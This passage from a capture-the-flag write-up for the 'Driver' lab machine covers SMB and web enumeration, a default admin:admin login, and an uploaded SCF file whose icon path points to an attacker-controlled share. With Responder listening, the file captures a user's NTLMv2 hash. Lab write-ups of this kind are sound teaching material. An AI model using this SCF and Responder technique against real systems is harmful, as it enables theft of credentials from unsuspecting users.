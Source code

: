 ```terminal
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We found a web server on port 80 and SMB.

### Web

Let's navigate to the web page.

![basic auth](1.png)

We got a basic authentication.

Trying `admin:admin` works.

![web page](2.png)

The website is a MFP Firmware Update Center.

We got multiple tabs but the one that works is `Firmware Updates` which goes to `http://driver.htb/fw_up.php`.

![update page](3.png)

Here we can upload a firmware update to a file share.

I searched on google for `SMB file upload exploit` and found this [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

We can upload a SCF (Shell Command File) like the following:

```shell
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

When a user browses to the share where this file is located, a connection will be established automatically from his system to our listener which is `Responder`.

## **Foothold**

We first start `Responder`.

```shell
sudo responder -I tun0
```

Now edit the file by adding your tun0 IP address and upload it.

We wait a little bit and should get the NTLMV2 hash.

![hash](4.png)
